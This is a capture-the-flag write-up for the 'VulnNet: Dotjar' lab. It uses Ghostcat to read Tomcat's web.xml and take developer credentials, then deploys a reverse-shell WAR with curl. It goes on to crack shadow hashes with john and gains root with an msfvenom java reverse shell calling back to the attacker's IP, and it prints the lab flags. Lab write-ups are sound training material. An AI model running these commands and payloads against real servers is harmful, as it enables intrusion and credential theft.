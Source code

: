 > VulnNet: Dotjar

# Nmap

nmap -sC -sV -T4 -Pn -vv -A -oN nmap/initial $IP

```bash
8009/tcp open     ajp13       syn-ack     Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open     http        syn-ack     Apache Tomcat 9.0.30
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/9.0.30
```

We can see that we have Tomcat but the version has no exploits and try to access `Manager App` and others requires authentication. Let's move onto port 8009 and hacktricks has great reference and it referred to `Ghostcat` exploit.
And looking for the exploit at github the 1st reference gave us a python exploit. Let's try reading `WEB-INF/web.xml` file as suggested in Hacktricks.

python3 exploit.py http://10.10.96.125:8080/ 8009 /WEB-INF/web.xml read

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>VulnNet Entertainment</display-name>
  <description>
     VulnNet Dev Regulations - mandatory
 
1. Every VulnNet Entertainment dev is obligated to follow the rules described herein according to the contract you signed.
2. Every web application you develop and its source code stays here and is not subject to unauthorized self-publication.
-- Your work will be reviewed by our web experts and depending on the results and the company needs a process of implementation might start.
-- Your project scope is written in the contract.
3. Developer access is granted with the credentials provided below:
 
    webdev:Hgj3LA$02D$Fa@21
 
GUI access is disabled for security reasons.
 
4. All further instructions are delivered to your business mail address.
5. If you have any additional questions contact our staff help branch.
  </description>

</web-app>
```

## What we have here?

1. We have developer creds.
2. But no GUI access.

So let's try without GUI. /manager/html is the standard manager url, but /manager/text performs basically the same purpose without a gui! Sure enough, by accessing /manager/text/list I got a list of deployed applications. Let's upload a reverse shell to /manager/text/deploy and get a shell!

curl --user "webdev" --upload-file ilu.war http://10.10.96.125:8080/manager/text/deploy?path=/

And we have successfully uploaded a war file. Accessing `http://10.10.96.125:8080/ilu.war/` we got a shell as web!
While checking dirs like /opt and /var I got a weird one at /backups. 

```bash
-rw-r--r--  1 root root       485 Jan 16 13:44 shadow-backup-alt.gz
```

Let's move it to a remote location and view it.

```bash
cp shadow-backup-alt.gz /dev/shm
cd /dev/shm
gunzip shadow-backup-alt.gz
cat shadow-backup-alt

========================================================================================================== 
root:$6$FphZT5C5$cH1.ZcqBlBpjzn2k.w8uJ8sDgZw6Bj1NIhSL63pDLdZ9i3k41ofdrs2kfOBW7cxdlMexHZKxtUwfmzX/UgQZg.:18643:0:99999:7:::
daemon:*:18642:0:99999:7:::
bin:*:18642:0:99999:7:::
sys:*:18642:0:99999:7:::
sync:*:18642:0:99999:7:::
games:*:18642:0:99999:7:::
man:*:18642:0:99999:7:::
lp:*:18642:0:99999:7:::
mail:*:18642:0:99999:7:::
news:*:18642:0:99999:7:::
uucp:*:18642:0:99999:7:::
proxy:*:18642:0:99999:7:::
www-data:*:18642:0:99999:7:::
backup:*:18642:0:99999:7:::
list:*:18642:0:99999:7:::
irc:*:18642:0:99999:7:::
gnats:*:18642:0:99999:7:::
nobody:*:18642:0:99999:7:::
systemd-network:*:18642:0:99999:7:::
systemd-resolve:*:18642:0:99999:7:::
syslog:*:18642:0:99999:7:::
messagebus:*:18642:0:99999:7:::
_apt:*:18642:0:99999:7:::
uuidd:*:18642:0:99999:7:::
lightdm:*:18642:0:99999:7:::
whoopsie:*:18642:0:99999:7:::
kernoops:*:18642:0:99999:7:::
pulse:*:18642:0:99999:7:::
avahi:*:18642:0:99999:7:::
hplip:*:18642:0:99999:7:::
jdk-admin:$6$PQQxGZw5$fSSXp2EcFX0RNNOcu6uakkFjKDDWGw1H35uvQzaH44.I/5cwM0KsRpwIp8OcsOeQcmXJeJAk7SnwY6wV8A0z/1:18643:0:99999:7:::
web:$6$hmf.N2Bt$FoZq69tjRMp0CIjaVgjpCiw496PbRAxLt32KOdLOxMV3N3uMSV0cSr1W2gyU4wqG/dyE6jdwLuv8APdqT8f94/:18643:0:99999:7:::
==========================================================================================================
```

We got the shadow hashes. Let's crack them! I started with jdk-admin.

john --format=sha512crypt jdk-admin.hash --wordlist=/usr/share/wordlists/rockyou.txt

```bash
794613852        (jdk-admin)
```

# user.txt

```
THM{1ae87fa6ec2cd9f840c68cbad78e9351}
```

# Privilege Escalation

sudo -l

```bash
User jdk-admin may run the following commands on vulnnet-dotjar:
    (root) /usr/bin/java -jar *.jar
```

Let's create a payload with msfvenom. 

msfvenom -p java/shell_reverse_tcp LHOST=10.8.107.21 LPORT=1337 -f jar > root.jar

And on running `sudo /usr/bin/java -jar root.jar` we got a shell as root.

# root.txt

```
THM{464c29e3ffae05c2e67e6f0c5064759c}
```